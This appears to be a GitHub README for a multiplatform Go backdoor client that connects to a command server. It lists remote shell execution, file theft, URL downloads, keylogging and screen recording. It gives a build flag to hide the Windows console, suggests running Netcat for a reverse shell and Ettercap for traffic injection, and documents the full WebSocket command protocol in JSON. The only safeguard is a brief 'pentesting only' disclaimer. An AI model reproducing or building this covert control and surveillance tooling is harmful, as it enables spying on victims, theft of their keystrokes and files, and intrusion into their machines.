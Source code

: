 # marauders-map-client-desktop
A multiplatform WOCA backdoor written in Go

Download here the [Spring Boot Server](https://github.com/apal7/marauders-map)

## IMPORTANT
Only for pentesting and personal use. I am not responsible for the use you may give(:

### Definitions
This payload offers you these operations:
- Execute bash commands originated by the server
- Download files from URLs by HTTP
- Send files to server
- Keylogger and Screen, recording

This is a simple but very a effective payload. With the operations above you can execute RPC for downloading and executing programs like `Netcat` for reverse shell; compressing binaries like `tar`; `Nmap` for port scanning and recoignanse; `Ettercap` command line version for spoofing and HTTP content injection into the traffict; etc..
Beside it comes with built in monitoring capabilities of keylogging and screen recording for a better performance

**You can see API contract down below...**

### Windows
For hidden shell window, build as follows:
```
go build -ldflags -H=windowsgui main.go
```

### API contract over Websocket connection
```json
// ========================================
// BASH operations
// ========================================

// Request a bash execution to a client
// @reqid: request ID from server
// @cmd: the command
// @data: the shell command splitted into parts; must be joined
{
	"reqid": 	"123456",
	"cmd": 		"bash",
	"data": [
		"mkdir",
		"DirectoryName"
	]
}


// ========================================
// FILE Operations
// ========================================

// Request a client a file from its diretory
// @reqid: request ID from server
// @cmd: the command
// @action: the command action
// @files: files to send; path could be relative or absolute
{
	"reqid": 	"123456",
	"cmd": 		"file",
	"action": 	"send",
	"files": [
		"FileName1",
		"Filename2"
	]
}

// Request a client to download a file from an URL
// @reqid: request ID from server
// @cmd: the command
// @action: the command action
// @files: URL of files to download
{
	"reqid": 	"123456",
	"cmd": 		"file",
	"action":	"download",
	"files": [
		"http://example.com/url/path/to/file.txt",
		"http://example.com/url/path/to/file2.format"
	]
}


// ========================================
// Screen Operations
// ========================================

// Request a client to start recording its screen
// @reqid: request ID from server
// @cmd: the command
// @action: the command action
// @action_status: the status of the action
// @seconds: how much time will be executing this
{
	"reqid": 			"123456",
	"cmd": 				"screen",
	"action": 			"record",
	"action_status": 	"start",
	"seconds": 			15
}

// Request a client to stop recording its screen
// @reqid: request ID from server
// @cmd: the command
// @action: the command action
// @action_status: the status of the action
// @seconds: must be null if you want to stop recording
{
	"reqid": 			"123456",
	"cmd": 				"screen",
	"action": 			"record",
	"action_status": 	"stop",
	"seconds": 			null
}

// Request a client to send a screenshot
// @reqid: request ID from server
// @cmd: the command
// @action: the command action
// @action_status: the status of the action
// @seconds: must be null if you want to stop recording
{
	"reqid": 			"123456",
	"cmd": 				"screen",
	"action": 			"screenshot",
	"action_status": 	null,
	"seconds": 			null
}


// ========================================
// Keylogger Operations
// ========================================

// Request a client to start recording its keyboard
// @reqid: request ID from server
// @cmd: the command
// @action: the command action
// @action_status: the status of the action
// @seconds: how much time will be executing this; if null, indefinitely
{
	"reqid": 			"123456",
	"cmd": 				"kl",
	"action": 			"record",
	"action_status": 	"start",
	"seconds": 			null
}

// Request a client to stop recording its keyboard
// @reqid: request ID from server
// @cmd: the command
// @action: the command action
// @action_status: the status of the action
{
	"reqid": 			"123456",
	"cmd": 				"kl",
	"action": 			"record",
	"action_status": 	"stop"
}

// Request a client to start to send its keystrokes in live
// @reqid: request ID from server
// @cmd: the command
// @action: the command action
// @action_status: the status of the action
{
	"reqid": 			"123456",
	"cmd": 				"kl",
	"action": 			"stream",
	"action_status": 	"start"
}

// Request a client to stop to send its keystrokes in live
// @reqid: request ID from server
// @cmd: the command
// @action: the command action
// @action_status: the status of the action
{
	"reqid": 			"123456",
	"cmd": 				"kl",
	"action": 			"stream",
	"action_status": 	"stop"
}
```
